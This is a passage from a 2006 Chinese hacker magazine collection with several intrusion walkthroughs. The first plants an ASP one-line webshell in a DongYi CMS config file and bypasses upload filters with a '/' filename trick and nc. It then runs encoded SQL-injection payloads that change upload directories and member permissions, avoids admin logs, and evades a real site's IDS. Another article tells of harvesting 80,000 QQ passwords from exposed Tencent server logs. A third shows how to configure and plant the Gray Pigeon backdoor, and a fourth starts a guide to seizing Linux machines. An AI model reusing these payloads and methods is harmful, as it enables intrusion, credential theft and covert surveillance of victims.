Const RCM_Menu_21=1	'	弹出菜单边框宽度
Const RCM_Menu_22=#ACA899	'	弹出菜单边框颜色
Const RCM_Menu_23=#ffffff	'
'菜单项参数设置
Const RCM_Item_1=0	'	菜单项类型 0---Txt 1---Html 2---Image
Const RCM_Item_2=	'	菜单项名称
Const RCM_Item_3=	'	菜单项为Image，图片文件
Const RCM_Item_4=	'	菜单项为Image，鼠标指在菜单项时，图片文件。
Const RCM_Item_5=-1	'	菜单项为Image，图片宽度
Const RCM_Item_6=-1	'	菜单项为Image，图片高度
Const RCM_Item_7=0	'	菜单项为Image，图片边框
Const RCM_Item_8=	'	菜单项链接地址
Const RCM_Item_9=	'	菜单项链接目标。如：_self _blank
Const RCM_Item_10=	'	菜单项链接状态栏显示
Const RCM_Item_11=	'	菜单项链接地址提示信息
Const RCM_Item_12=	'	菜单项左图片
Const RCM_Item_13=	'	鼠标指在菜单项时，菜单项左图片
Const RCM_Item_14=0	'	菜单项左图片宽度，0为图像文件原始值
Const RCM_Item_15=0	'	菜单项左图片高度，0为图像文件原始值
Const RCM_Item_16=0	'	菜单项左图片边框大小
Const RCM_Item_17=	'	菜单项右图片如：arrow_r.gif
Const RCM_Item_18=	'	鼠标指在菜单项时，菜单项右图片。如：arrow_w.gif
```

```
```asp
Const RCM_Item_19="0" ' 菜单项右图片宽度，0为图像文件原始值
Const RCM_Item_20="0" ' 菜单项右图片高度，0为图像文件原始值
Const RCM_Item_21="0" ' 菜单项右图片边框大小
Const RCM_Item_22="0" ' 菜单项文字水平对齐方式 0：左对齐 1：居中 2：右对齐
Const RCM_Item_23="1" ' 菜单项文字垂直对齐方式 0：顶部 1：居中 2：底部
Const RCM_Item_24="#F1F2DE" ' 菜单项背景颜色 透明色：'transparent'
Const RCM_Item_25="1" ' 菜单项背景颜色是否显示 0：显示 其它：不显示
Const RCM_Item_26="#CCCCCC" ' 鼠标指在菜单项时，菜单项背景颜色
Const RCM_Item_27="1" ' 鼠标指在菜单项时，菜单项背景颜色是否显示。 0：显示 其它：不显示
Const RCM_Item_28="" ' 菜单项背景图片
Const RCM_Item_29="" ' 鼠标指在菜单项时，菜单项背景图片
Const RCM_Item_30="3" ' 菜单项背景图片平铺模式。0：不平铺 1：横向平铺 2：纵向平铺 3：完全平铺
Const RCM_Item_31="3" ' 鼠标指在菜单项时，菜单项背景图片平铺模式。0－3
Const RCM_Item_32="0" ' 菜单项边框类型 0：无边框 1：单实线 2：双实线 5：凹陷 6：凸起
Const RCM_Item_33="0" ' 菜单项边框宽度
Const RCM_Item_34="#FFFFF7" ' 菜单项边框颜色
Const RCM_Item_35="#FF0000" ' 鼠标指在菜单项时，菜单项边框颜色
Const RCM_Item_36="#000000" ' 菜单项文字颜色
Const RCM_Item_37="#CC0000" ' 鼠标指在菜单项时，菜单项文字颜色
Const RCM_Item_38="9pt 宋体" ' 菜单项文字字体
Const RCM_Item_39="" ' 鼠标指在菜单项时，菜单项文字字体
%>
```
```

显然设置是一一对应的，我们就在设置中写入一个小型的asp木马<%execute request("1")%>

由于有些输入框限制了输入字符的个数，我选择了菜单其他特效，这个输入框写入木马，为了防止保存后的RootClass_Menu_Config.asp产生错误，我们写入" %> <%execute request("1")%><% "注意一定要有最后面的" "符号，这是注释符，注释掉后面的" "使插入的代码可以运行。如图10所示。


我们保存一下修改结果，再看看RootClass_Menu_Config.asp这个文件。如图11所示。

```
```asp
if RCM_Item_8="0" then ' 菜单项下的高度 0-100 ' 完全透明 '完全透明
Const RCM_Item_9="0" ' 菜单项背景效果 ' 0-100 ' 完全透明 '完全透明
Const RCM_Item_10="0" ' 菜单项下的高度 ' 0-100 ' 完全透明 '完全透明
Const RCM_Item_11="" ' 菜单项背景效果 ' 0-100 ' 完全透明 '完全透明
Const RCM_Item_12="" ' 菜单项下的高度 ' 0-100 ' 完全透明 '完全透明
Const RCM_Item_13="" ' 菜单项背景效果 ' 0-100 ' 完全透明 '完全透明
Const RCM_Item_14="" ' 菜单项下的高度 ' 0-100 ' 完全透明 '完全透明
Const RCM_Item_15="" ' 菜单项背景效果 ' 0-100 ' 完全透明 '完全透明
Const RCM_Item_16="" ' 菜单项下的高度 ' 0-100 ' 完全透明 '完全透明
Const RCM_Item_17="" ' 菜单项背景效果 ' 0-100 ' 完全透明 '完全透明
Const RCM_Item_18="" ' 菜单项下的高度 ' 0-100 ' 完全透明 '完全透明
Const RCM_Item_19="" ' 菜单项背景效果 ' 0-100 ' 完全透明 '完全透明
%>
```
```

图11

哈哈，我们的脚本写入了这个ASP文件，运行一下看看有没有错误。如图12所示。


这就说明了我们提交的后门代码运行了，如果还是不放心，运行一下看看，如图13所示。


没有问题，不过这样修改后再进后台的顶部菜单设置就会出错。如图14所示。


所以我们通过这段后门上传功能强大的木马后一定要记得改回系统原来的设置，防止被管理员发现。方法有了，我们就在77169上测试一下，结果让我大跌眼镜。

www.hacker.com.cn
2006 精华奉献本 下册


## SPECIAL SUBJECT

栏目编辑：刘流 liulu@hacker.com.cn

### 构建自己的入侵检测系统

如图15所示。


图15

看来没有权限修改这个文件，管理员预防这一招了，黑客站点就是黑客站点，安全做的很高，道高一尺，魔高一丈，我们再通过其他方法上传Shell。

打开后台的系统设置，网站频道管理，在文章中心频道点击操作中的修改。如图16所示。


图16

哈哈，这里有文件上传类型的定义，加个asp图片类型看看能不能上传ASP木马。如图17所示。

点击上传之后发现，如图18所示。

没用，看来程序过滤了asp扩展名的文件，再加上cer，cdx，aspx，asa的，甚至再加上空格，依然不能够上传这个类型的文件。郁闷。既然加上空格，程序在保存的时候会去掉扩展名后的空格，那我们加上/符号，程序在保存的时候应该也会去掉/的，我们就来测试一下。如图19所示。

我们在图片类型后面添加个asp/类型的扩展名，然后保存，然后添加文件，在上传图片的对话框中选择个asp扩展名的文件，在扩展名后加个空格，点击上传，同时用WSE抓包。如图20所示。

将抓到的包保存起来，修改filename中刚才加的空格为/，然后用nc提交，显示我们上传成功。如图21所示。

哈哈，成功了，不过扩展名后面有个“/”，不过Windows在保存文件时会去掉扩展名后的“/”，不信我们查看一下上传的文件。如图22所示。

文件显然上传上去了，并且保存的扩展名是asp，只可惜


图17


图18


图19


图20

黑客防线 www.hacker.com.cn

2006精华奉献本 下册 要目


这个目录没有执行权限，其实这个早就在意料之中了。一个的黑客站点不可能连这点安全意识都没有，其实绕过这一个限制相当的容易，修改文件保存的目录即可，提交

```
messageid=1);update pe_channel set uploaddir=char(0x75)%2Bchar(0x70)%2Bchar(0x6c)%2Bchar(0x6f)%2Bchar(0x61)%2Bchar(0x64) where channelid=1;--
```

将频道channelid=1的频道的上传文件目录修改为upload。

我们再提交一次刚才修改过的包。如图23所示。

我也不改主页了，呵呵。别忘了把上传目录恢复过来：

```
messageid=1);update pe_channel set uploaddir=char(0x55)%2Bchar(0x70)%2Bchar(0x6c)%2Bchar(0x6f)%2Bchar(0x61)%2Bchar(0x64)%2Bchar(0x46)%2Bchar(0x69)%2Bchar(0x6c)%2Bchar(0x65)%2Bchar(0x73) where channelid=1;--
```


上传的文件保存目录改变了。访问一下看看咯。如图24所示。

哈哈，成功了。如图25所示。

由于动易系统是自动生成HTML文件的，所以许多文件目录都有写权限的，使得我们修改主页轻而易举。不过

接下来做的当然就是清除日志了，这是最头痛的环节了，主要是因为我们登录后台获取WebShell既容易被发现，又留下了一大堆的操作记录留在pe_log中。我通过对数据库的研究，发现不需要进后台就能上传Shell的方法，而且操作起来相当简单。看看pe_group表中的groupsetting字段，注册会员为0,0,0,20,1,0,0,5,100,0,100,100,0,0,1,100,10,1,0,0,0。

vip会员为0,1,1,500,2,1,1,1000,5000,1,1024,70,1,100,2,0,0,0,0,0,0。

vip会员是拥有上传权限的，通过对比我发现第10个数值是定义上传权限的，1是允许上传，这就好办了，使注册会员拥有上传权限的groupsetting改为0,0,0,20,1,0,0,5,100,1,100,100,0,0,1,100,10,1,0,0,0就可以了。如图26所示。


## SPECIAL SUBJECT

> 栏目编辑 > 刘流 > liuliu@hacker.com.cn

提交:

```
messageid=1);update [pe_usergroup] set groupsetting=char(0x30)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x32)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x31)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x31)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x35)%2Bchar(0x2c)%2Bchar(0x31)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x31)%2Bchar(0x2c)%2Bchar(0x31)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x31)%2Bchar(0x2c)%2Bchar(0x31)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x31)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x30) where groupid=1;--
```

使注册会员拥有上传功能。

```
Messageid=1);update [pe_channel] set upfiletype=char(0x6a)%2Bchar(0x70)%2Bchar(0x67)%2Bchar(0x7c)%2Bchar(0x62)%2Bchar(0x6d)%2Bchar(0x70)%2Bchar(0x7c)%2Bchar(0x67)%2Bchar(0x69)%2Bchar(0x66)%2Bchar(0x7c)%2Bchar(0x70)%2Bchar(0x6e)%2Bchar(0x67)%2Bchar(0x7c)%2Bchar(0x61)%2Bchar(0x73)%2Bchar(0x70)%2Bchar(0x2f)%2Bchar(0x24)%2Bchar(0x20)%2Bchar(0x73)%2Bchar(0x77)%2Bchar(0x66)%2Bchar(0x24)%2Bchar(0x20)%2Bchar(0x6c)%2Bchar(0x69)%2Bchar(0x64)%2Bchar(0x7c)%2Bchar(0x6d)%2Bchar(0x70)%2Bchar(0x33)%2Bchar(0x7c)%2Bchar(0x77)%2Bchar(0x6d)%2Bchar(0x76)%2Bchar(0x7c)%2Bchar(0x61)%2Bchar(0x73)%2Bchar(0x66)%2Bchar(0x7c)%2Bchar(0x61)%2Bchar(0x76)%2Bchar(0x69)%2Bchar(0x7c)%2Bchar(0x6d)%2Bchar(0x70)%2Bchar(0x67)%2Bchar(0x24)%2Bchar(0x20)%2Bchar(0x72)%2Bchar(0x61)%2Bchar(0x6d)%2Bchar(0x7c)%2Bchar(0x72)%2Bchar(0x6d)%2Bchar(0x7c)%2Bchar(0x72)%2Bchar(0x61)%2Bchar(0x24)%2Bchar(0x20)%2Bchar(0x72)%2Bchar(0x61)%2Bchar(0x72)%2Bchar(0x7c)%2Bchar(0x65)%2Bchar(0x78)%2Bchar(0x65)%2Bchar(0x7c)%2Bchar(0x64)%2Bchar(0x6c)%2Bchar(0x6c)%2Bchar(0x7c)%2Bchar(0x6f)%2Bchar(0x7a)%2Bchar(0x69)%2Bchar(0x70) where channelid=1;--
```

添加asp/扩展名的上传文件类型。
然后任意注册个会员通过以上介绍的上传方法上传ASP后门，如果上传成功后目录没有执行权限的话，通过上面介绍的代码修改文件保存的目录就可以了。
上传成功后一定要记得恢复设置哦。
提交:

```
messageid=1);update [pe_usergroup] set groupsetting=char(0x30)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x32)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x31)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x35)%2Bchar(0x2c)%2Bchar(0x31)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x31)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x31)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x2c)%2Bchar(0x31)
```

```
(0x30)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x32)%2Bchar(0x31)%2Bchar(0x2c)%2Bchar(0x31)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x31)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x31)%2Bchar(0x2c)%2Bchar(0x30)%2Bchar(0x2c)%2Bchar(0x30) where groupid=1;--
```

取消注册会员上传权限。

```
messageid=1);update [pe_channel] set upfiletype=char(0x6a)%2Bchar(0x70)%2Bchar(0x67)%2Bchar(0x7c)%2Bchar(0x62)%2Bchar(0x6d)%2Bchar(0x70)%2Bchar(0x7c)%2Bchar(0x67)%2Bchar(0x69)%2Bchar(0x66)%2Bchar(0x7c)%2Bchar(0x70)%2Bchar(0x6e)%2Bchar(0x67)%2Bchar(0x24)%2Bchar(0x20)%2Bchar(0x73)%2Bchar(0x77)%2Bchar(0x66)%2Bchar(0x24)%2Bchar(0x20)%2Bchar(0x6c)%2Bchar(0x69)%2Bchar(0x64)%2Bchar(0x7c)%2Bchar(0x6d)%2Bchar(0x70)%2Bchar(0x33)%2Bchar(0x7c)%2Bchar(0x77)%2Bchar(0x6d)%2Bchar(0x76)%2Bchar(0x7c)%2Bchar(0x61)%2Bchar(0x73)%2Bchar(0x66)%2Bchar(0x7c)%2Bchar(0x61)%2Bchar(0x76)%2Bchar(0x69)%2Bchar(0x7c)%2Bchar(0x6d)%2Bchar(0x70)%2Bchar(0x67)%2Bchar(0x24)%2Bchar(0x20)%2Bchar(0x72)%2Bchar(0x61)%2Bchar(0x72)%2Bchar(0x7c)%2Bchar(0x72)%2Bchar(0x6d)%2Bchar(0x7c)%2Bchar(0x72)%2Bchar(0x61)%2Bchar(0x24)%2Bchar(0x20)%2Bchar(0x72)%2Bchar(0x61)%2Bchar(0x72)%2Bchar(0x7c)%2Bchar(0x65)%2Bchar(0x78)%2Bchar(0x65)%2Bchar(0x7c)%2Bchar(0x64)%2Bchar(0x6c)%2Bchar(0x6c)%2Bchar(0x7c)%2Bchar(0x6f)%2Bchar(0x7a)%2Bchar(0x69)%2Bchar(0x70) where channelid=1;--
```

去掉添加的asp / 图片类型的文件。这样一次完美的入侵就完成了，并且不会在pe_log中增加记录。“杀人”于无形。由于漏洞不仅影响到最新版本的动易系统商业版，可能也影响到使用动易内核开发的各种动易网络商城系统，动易官方网站也不能幸免，庆幸的是官方装了IDS系统，过滤了“' ,select,update”等关键字，使得我们在渗透官方的过程中步履维艰。比如我们提交:

```
http://www.asp163.net/USER/User_Message.asp?
Action=Del&ManageType=inbox&MessageID= select adminname from pe_admin
```

会被IDS拦截到，原因是拦截到我们提交的select关键字。不过官方使用的基于软件的IDS有漏洞。我们提交:

```
http://www.asp163.net/USER/User_Message.asp?
’Action=Del&ManageType=inbox&MessageID= select/**/adminname from pe_admin
```

即可轻松绕过IDS系统的过滤。鉴于可能对该商业网站的不良影响，本人并没有继续深入下去，所以告诫大家在测试的时候切勿选择商业站点，以免招来不必要的麻烦。

黑客手册 2006 精华奉献本 下册 69

WTF：作为中国最大的即时通信软件厂商，用户的账户安全问题绝对是重中之重。腾讯现在不是个普通的软件公司，而是大量QQ用户的收费服务商！在这样的情况下对于所有使用QQ的网民，自身的利益和账户安全有谁来保证呢？希望腾讯公司在发展业务的同时，也能关注一下自己的服务安全。

适合读者：网站管理员，入侵爱好者

前置知识：无

### 1分钟获得8万QQ用户密码

文/图 Lysosome

#### ——记第二次入侵腾讯公司手机网站


随着手机的功能渐渐地强大，现在手机上网再也不是什么新鲜事儿了，广大WAP一族都应知道腾讯公司的手机站点，它与其它的手机站也差不多，都是图铃下载、电子读物、资料查询和3G论坛之类。而有一个与其它站不同的就是腾讯公司再次打起他的招牌菜“QQ”，用户只需要通过手机访问他们的WAP网站就可以一边下载图铃一边可以与QQ好友聊天，你说是多么的方便时尚哟。但是，网站大多会有这或那的Bug，至于什么Bug？看看下文就知道了。

由于他们的手机网站WWW服务器是用“Apache Tomcat/4.1.30”（从上面图1的页底的Sign可以看出），且用Tomcat架的WWW服务器默认是当找不到目录的索引文件就会列出目录的，腾讯公司属下的某地区手机站也有这样目录列表的漏洞。当初我就是这样在它的“log”文件目录里下了它一个月的QQ登录日志，里面有好多QQ的账号和密码，那块奶酪真的很“味美”，因为里面也有不少是5、6位的QQ号。

后来可能是腾讯公司的手机站服务器维护，这个目录浏览没有了，我取得的日志文件列表也随即便没有了，这样一块美味的奶酪就这样没有了，心里总有些心有不甘。

转眼间两个月过去了，我偶然想起两月前这美味的奶酪，心里总觉得得到这奶酪还是应该有可能的。至少我还记得那些日志目录的位置。于是又一次在IE浏览器上访问那个网站的日志目录，可惜来了一个闭门羹，如图3所示。


在网站的某一目录里还可以浏览备份文件，图2上的那些“*.Bak”文件就是了，虽然3GQQ网站里的QQ登录引擎是利用JAVA的类封装的，懂JAVA的在图2我打开的那个“home2.jsp.bak”文件里的代码可以看出“com.qq.content.*;com.qq.core.*”等这些。虽然我今天讲的不是代码入侵，但这些代码随时都可以成为用来入侵网站的资料。

难道网站已经没有这个目录？这个闭门羹足足闭了我的思路一天多，细心回想，记得当初在浏览这目录时，里面除了有QQ手机用户的登录信息外，还有几个是专门用来分析和确认QQ用户登录时成功与否的，且它的

日志文件从2005年5月到6月的也有，按理说他们的管理员应该是比较固定在这个目录里工作的。而这个闭门羹也许是个假象，因为Tomcat服务器的策略是，如果启动了“关闭当找不到索引页文件的目录浏览”这策略，当我们去访问该目录时，服务器并不会像IIS、Apache等WWW服务器那样显示“HTTP Status 403 Forbidden”（默认情况下，人工修改除外），可见单凭这“HTTP Status 404 - /wap/test/log”这出错页面是不能够充分说明此目录不存在的。

脑袋突然一个激灵，马上从我的资料库里找出当初下载回来的源日志文件，幸亏当初还没把它的文件名改了，要不然就没有好戏看喽。于是用源日志文件名与维护后的网站URL重新结合一起，果然有反应了，如图4所示。


由于“twf.log”这个日志文件比较大，我的浏览器还在显示中呢。后来我用FlashGet把它下载了回来，为了方便分离出用户QQ的账号与密码，我还花了大半天的时间去写了个QQ分离器，如图5所示。

哈哈，这样就可以很轻松通过一天的日志文件就可以得到8万多个用户的账号，是不是这块奶酪很美味呢？如图6所示。


从上面的例子上我们不难看出，当我们看到“闭门羹”也许不是真的，要懂得分析问题的所在，最重要的就是要结合实际的情况与环境找到突破口。

WTF：鸽子一直是人类的朋友，圣经中曾有鸽子为诺亚方舟上的生灵们带来大地复苏消息的故事，而认路能力极强的鸽子，同时也成为了人类从古到今必不可缺的信使。它们能不顾恶劣的天气，躲过老鹰等其他敌人的骚扰，及时地为自己的主人传达信息。今天，我们这里讲的就是这么一个优秀信使和一个老牌的远程控制利器——灰鸽子。

适合读者：入侵爱好者，网络管理员
前置知识：远程控制基础

### 谁是你的卧底
#### ——体验灰鸽子企业版

网上的远程控制软件实在太多，让人满意的却没有几款。稍微好一点的是镭（Radmin），屏幕实时控制速度非常流畅，和在自己机上控制差不了多少，但这个软件是国外的，我们国内有没有如此强劲的软件呢？几经筛选，终于发现一款可以与之媲美的国产远程控制软件，它就是早已在国内扬名的灰鸽子远程控制[企业版]，经过多年的开发，它已经从一个小鸽子成长为专注于远程控制应用的大哥大了，它不但有适合个人用户的VIP版，还有适合企业用户的企业版，企业版性能更为优良，运行更加稳定。好了，话不多说，在这里主要为大家介绍一下灰鸽子的企业版和VIP版的使用，如图1所示。

### 灰鸽子远程控制企业版


企业版看起来非常时尚、整洁、功能齐全、实用。功能是最重要的，下面让我小游鱼为大家逐个介绍这些功能，先让我介绍一些枯燥的东西，然后再为大家奉上实战体验之旅。

#### 功能介绍

##### 第一：超强的文件传输管理
有时候想从远程主机拿一点东西，速度不快，又常断线，很头晕，怎么办呢？灰鸽子可以帮忙。它可以对远程计算机进行文件管理，模仿Windows资源管理器，可以对文件进行复制、粘贴、删除、重命名、远程运行等，可以上传下载文件或文件夹，操作简单易用，并且有断点续传功能。一点也不逊色于Windows的资源管理器，简直就像在自己机器上操作一样。

##### 第二：流畅的屏幕控制
控制当然离不开屏幕了，谁不想又快又准呢？因为这个版本捕获屏幕用的是驱动技术，只传送屏幕变化部分，所以它的传输效率非常高，已经非常完美了，其他软件操作了几十秒后再反应的事情在它身上已经得到了改善。在测试中我们发现在CPU占用率上远低于Radmin，遗憾的是这个技术不支持Windows 9x系统。

##### 第三：清晰的视频语音对话
想通话？很容易！灰鸽子用最小的带宽达到最好的音效传输效果，再也不用竖起耳朵来辨听哪些沙哑的声音了。

##### 第四：贴心的注册表模拟
如果用户需要编辑注册表怎么办？内建的远程注册表操作就像操作本地注册表一样方便，极大地方便了用户。

##### 第五：多种自动上线方式
专用上线、DNS解析域名、固定IP等，这是国外其他软件少有的功能，主要是对国内的上网方式作了优化，使它能适应多种网络条件，达到更好的效果。

##### 第六：专用的自动上线系统
如果你没有主页空间，又不想使用免费的域名，专用的自动上线系统正适合你的要求，这项服务是提供给注册用户的。

##### 第七：模拟Telnet（超级终端）登录
对于高手，你想要更底层的操作，更强大的功能，没问题，模拟Telnet功能让你能够一展拳脚，一试你高强的命令行操作。

##### 第八：易于操作的命令广播功能
它提供一个企业级的控制面，解决多台主机操控的难题，实现了多台主机实现联动操作，如（关机、重启、打开网页，筛选符合条件的机器）等，点一个按钮就可以让多台机器同时关机，非常实用。

#### 体验之旅

##### 第一步：安装软件
使用软件之前第一件事当然是安装，灰鸽子的安装非常简单，直接下一步就是了，打开软件，然后点击菜单下面的图形按钮之中的“配置服务程序”，相信没人会点错吧？

##### 第二步：配置服务程序
配置过程非常简单，看最上面，有连接类型、综合选项、权限设置三大项，首先我们要设置的是连接类型，有主动连接型和自动上线型两种，主动就是你去连接别人，自动连接就是别人连接你，综合设置里把密码填入去就行了，如果这个你也不会，我就￥%……#……#，权限设置里更简单，比如我只想看你不想摸你，就只选屏幕查看好了，不要多选，不然后果很严重。

##### 第三步：安装客户端
除了点下一步安装之外，你还可以在安装完成之后再设置它的权限。

##### 第四步：等候上线
装完之后就等鱼儿上钩了，当有主机上线的时候屏幕右下端会弹出一个通知窗口，在程序左边上线主机哪里可以找到它，然后你就可以进行操作了。

#### 总结：
整个过程非常简单，总共不过4步，无论从哪个方面看都不难，过程非常简约，可以说是建设节约型社会的典范！

#### 擂台对决

光说没用，对比才是最重要的，让我们来和远程控制也很强的Radmin（镭）来作一个对比。

| 镭的简介 | 灰鸽子简介 |
| --- | --- |
| 出生地：美国 | 出生地：中国 |
| 出生年月：1999 | 出生年月：未知 |
| 特长：远程控制 | 特长：远程控制 |

以下是它们所具有的功能：
从字面上看，灰鸽子功能比较多，而镭的功能比较单一。
实测条件：带宽1MB
条件：拨号

| | 灰鸽子 | 镭(Radmin) |
| --- | --- | --- |
| 屏幕控制 | 是 | 是 |
| 文件传输 | 是 | 是 |
| Telnet模拟 | 是 | 是 |
| 语音传送 | 是 | 否 |
| 注册表模拟 | 是 | 否 |
| 主动连接方式 | 是 | 是 |
| 自动上线方式选择 | 是 | 否 |
| 专用的自动上线系统 | 是 | 否 |
| 同时可以控制多台机器 | 是 | 否 |

| | 灰鸽子 | 镭 |
| --- | --- | --- |
| 屏幕控制 | 相同 | |
| 文件传输 | 灰鸽子支持续传，镭传输比较容忍中断，没有续传功能 | |
| Telnet模拟 | 相同 | |
| 是否可以同时多窗口操作 | 相同 | |

| 灰鸽子 | 镭 |
| --- | --- |
| 屏幕控制 | 镭比较好 |
| 文件传输 | 灰鸽子支持续传，镭传输比较容忍中断，没有续传功能 |
| Telnet模拟 | 相同 |
| 是否可以同时多窗口操作 | 相同 |

从以上结果来看，相同功能比较它们不相上下，但灰鸽子的其它功能比较多，比较适合我们的使用需求。

### 灰鸽子远程控制VIP版

#### VIP版主要特点如下：

- 1. 服务端安装过程可以由用户设置是否显示Windows安装过程，可能被部分杀毒软件误杀！（若有这种情况属为正常，用户可以在杀毒软件上设置过滤或暂时关闭杀毒软件，再下载使用！）
- 2. 具有插件功能，用户可以按照自己的需要使用一些插件，使用上更灵活！
- 3. 只有自动上线方式，没有主动连接方式！

也就是说，企业版和VIP版最主要不同的地方就是VIP版的服务端在安装的时候，可以选择在托盘显示或不显示图标，没有标准的Windows安装过程！还有VIP版不是使用驱动来捕获屏幕，屏幕控制的速度没有企业版的快！正因为这样，除了正常的远程管理外，便有部分人把灰鸽子作成黑客工具来使用了。于是，一些杀毒软件，便把灰鸽子列为了后门程序来查杀！

国内媒体对这款软件的反应如下。

报刊杂志对灰鸽子的报道相信大家已经不少见了。因为灰鸽子是一款远程控制软件，长期以来，人们总是认为这是一款黑客软件。下面是瑞星公司对灰鸽子的评价：“其丰富而强大的功能、灵活多变的操作、良好的隐蔽性使其他后门都相形见绌。客户端简易便捷的操作使刚入门的初学者都能充当黑客。当使用在合法情况下时，灰鸽子是一款优秀的远程控制软件。但如果拿它做一些非法的事，灰鸽子就成了很强大的黑客工具。这就好比火药，用在不同的场合，给人类带来不同的影响。”

### 灰鸽子远程控制黑防专版

我们来看看灰鸽子[黑防专版]的使用教程。打开灰鸽子主程序后，我们可以看到程序的主界面。如图2所示。


第一次使用的话，我们要先配置一个服务端程序（生成一个服务端程序），我们单击配置服务程序按钮，可以看到，如图3所示的界面。


在IP通知HTTP访问地址、DNS解析域名或固定IP中写入一个动态解析域名即可（如：3322.org的动态域名、花生壳动态解析域名都可以，点击后面的说明按钮有具体说明）。我们再看看安装选项。如图4所示。

这里很详细的提示，默认的安装文件名是：hacker.exe。这个名称可以随便改，只要不和系统现有的安装名称冲突就可以！

其他的选项使用默认的就可以了！然后选择服务端的保存路径，点击生成服务器按钮！然后把这个服务端程序发到远程电脑运行，那你就可以对这台远程电脑进行控制和远程管理了！


图4

如果你用的是HTTP访问地址作为通知IP，那么你还要在客户端的自动上线功能上使用FTP更新到你的IP，远程主机才能自动上线让你控制，如图5所示。


图5

填写好你的FTP信息，再点击更新IP到FTP空间就可以了！当远程主机运行了你配置的服务端后，我们可以在客户端看到有自动上线的主机，如图6所示。

至此，双击自动上线主机的图标，这台主机便完全在我们的控制之中了！文件管理、捕获屏幕、视频监控，我们就可以一一体验了！


图6

（文中涉及程序或代码已经收录到本书配套光盘中，按文章名查找即可。本工具已于2005年10月20号收录于黑防VIP会员下载区）

### 灰鸽子黑防专版

- 1. 远程计算机文件管理：模仿Windows资源管理器，可以对文件进行复制、粘贴、删除、重命名、远程运行等，可以上传下载文件或文件夹，操作简单易用。
- 2. 远程控制命令：查看远程系统信息、剪切板查看、进程管理、窗口管理、插件功能、服务管理、共享管理、代理服务、MS-DOS模拟。
- 3. 捕获屏幕：不但可以连续的捕获远程电脑屏幕，还能把本地的鼠标及键盘传动作送到远程计算机实现实时控制！
- 4. 视频监控：可以监控远程摄像头！还有语音监听和发送功能！
- 5. Telnet（超级终端）。
- 6. 语音监听和发送：可以和远程主机进行语音对话！
- 7. 插件功能：用户可以按自己的需要添加和使用插件（如服务端隐身插件，隐藏进程、服务、文件等。）
- 8. 注册表模拟器：远程注册表操作就像操作本地注册表一样方便！
- 9. 命令广播：可以对自动上线主机进行命令播，如关机、重启、打开网页，筛选符合条件的机器等，点一个按钮就可以让N台机器同时关机！
- 10. 服务端以服务启动、支持发送多种组合键，可以轻松管理远程服务器！
- 11. 多种自动上线方式：FTP断IP、DNS解析域名、固定IP等，用户可自由选择！

### 灰鸽子的手工清除方法

清除灰鸽子要在安全模式下操作，主要有两步，1.清除灰鸽子的服务，2.删除灰鸽子程序文件。
为防止误操作，清除前一定要做好备份。

1、清除灰鸽子的服务
注意清除灰鸽子的服务一定要在注册表里完成，对注册表不熟悉的朋友请找熟悉的人帮忙，清除灰鸽子的服务一定要先备份注册表，或者到纯DOS下将注册表文件更名，然后再去注册表删除灰鸽子的服务。因为病毒会和EXE文件进行关联。

◎Windows 2000／XP系统

1) 打开注册表编辑器（点击“开始”->“运行”，输入“Regedit.exe”，确定。），打开HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services注册表项。
2) 点击菜单“编辑”->“查找”，“查找目标”输入“game.exe”，点击确定，我们就可以找到灰鸽子的服务项（此例为Game_Server，每个人这个服务项名称是不同的）。
3) 删除整个Game_Server项。

◎Windows 98／me系统

在9X下，灰鸽子启动项只有一个，因此清除更为简单。运行注册表编辑器，打开HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run项，立即看到名为Game.exe的一项，将Game.exe项删除即可。

2. 删除灰鸽子程序文件
删除灰鸽子程序文件非常简单，只需要在安全模式下删除Windows目录下的Game.exe、Game.dll、Game_Hook.dll以及Gamekey.dll文件，然后重新启动计算机。至此，灰鸽子服务端已经被清除干净。

适合读者：入侵爱好者、普通Linux网民
前置知识：Linux基本操作

### 投向Linux鸡胸的怀抱

文/图 密界寻踪

很多菜鸟都在重复地玩3389肉鸡，时间长了自然就腻味了，非常梦想得到自己的Linux肉鸡。下面我就写一篇关于菜鸟如何获得大量Linux肉鸡的方法。

需要工具Ssport，下载地址

```
http://count.skycn.com/s0ftdownlOad.php?id=15011&url=http://hn-http.skycn.net:8180/down/ssport.rar
```

HSCAN的下载地址

```
http://www.cnhonker.com/download/releases/Tools/hscan.zip
```

Putty的下载地址

```
http://count.skycn.com/s0ftdownlOad.php?id=9371&url=http://hn-http.skycn.net:8180/down/putty.exe
```

另外还需要一个VNC的Linux版本，头一次得到自己的Linux肉鸡，当然要看看它的桌面了。工具基本齐全了，下面首先请出Ssport这个强大的、特别适合新手入侵者使用的扫描器。程序界面如图1所示。


图1

